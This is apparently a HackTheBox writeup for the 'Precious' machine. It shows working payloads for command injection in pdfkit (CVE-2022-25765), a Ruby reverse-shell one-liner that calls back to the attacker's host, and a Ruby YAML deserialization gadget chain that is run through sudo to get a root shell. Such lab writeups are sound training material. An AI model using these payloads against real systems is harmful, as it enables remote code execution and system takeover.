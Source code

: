 ```yaml
---
layout: post
title: Precious
date: 2025-02-9 14:03 +0100
author: lone
description:
image:
category: HackTheBox
tags: htb box writeup
published: true
sitemap: false
---
```


## Inital access

```bash
nmap -T4 -p- -min-parallelism 40 10.10.11.XXX
```
![Nmap Scan TCP](/assets/img/precious/scantcp.png)

```bash
echo "10.10.11.XXX precious.htb" | sudo tee -a /etc/hosts
```

Let's take a look at the website.

![Precious Website](/assets/img/precious/website.png)

It looks like you can convert web pages to pdf, but the machine only seems to have access to the internal network. Let's host a web page quickly to analyze the pdf.

```bash
exiftool u3oysnv[...]d00u0qq.pdf

ExifTool Version Number         : 12.76
[...]
Creator                         : Generated by pdfkit v0.8.6
```
pdfkit v0.8.6 seems to be vulnerable to a command injection ([CVE-2022-25765](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)) 
Let's try it out this payload

`http://10.10.XX.XX:80/?name=%20``whoami`` `

We URL Encode it before sending it
```bash
curl 'http://precious.htb' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'url=http%3A%2F%2F10.10.XX.XX%3A80%2F%3Fname%3D%2520%60whoami%60'
```

And we receive a response on our server :

```bash
10.10.11.XXX - - [XX/XX/XX XX:XX:XX] "GET /?name=%20ruby HTTP/1.1" 200 -
```

Time to craft ourselves a reverse shell ! 
Let's setup a listenner :
```bash
pwncat-cs -p 1234
```

```ruby
ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.XX.XX",1234))'
```

We replace whoami by this new payload
```bash
curl 'http://precious.htb' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d "url=http://10.10.XX.XX/?name=%2520%60ruby%20-rsocket%20-e'spawn(%22sh%22,%5B:in,:out,:err%5D=%3ETCPSocket.new(%2210.10.XX.XX%22,XXXX))'%60"
```

![Reverse Shell](/assets/img/precious/reverseshell.png)

There is a .bundle in the home directory of our user ruby. Let's investigate :

![Ruby Conf file](/assets/img/precious/rubypivottohenry.png)

Clear text password for the user henry ! And with this we got our first flag :

![First Flag](/assets/img/precious/henryflag.png)

## Privilege escalation

```bash
sudo -l

(root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

So let's see what does the script do

```ruby
cat /opt/update_dependencies.rb 
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

Seems we have a control on dependencies.yml that is load via YAML.load(). We find a [blogpost](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) about ruby deserialization via YAML.

Let's take and modify a bit the payload :

```yaml dependencies.yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.XX.XX",1234))' #modify the command here
         method_id: :resolve
```

Prepare your listenner then use our sudo privilege to run the ruby script in the folder where our payload is.

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```
You should catch a root shell and find the root flag !

![Root Flag](../assets/img/precious/rootflag.png)

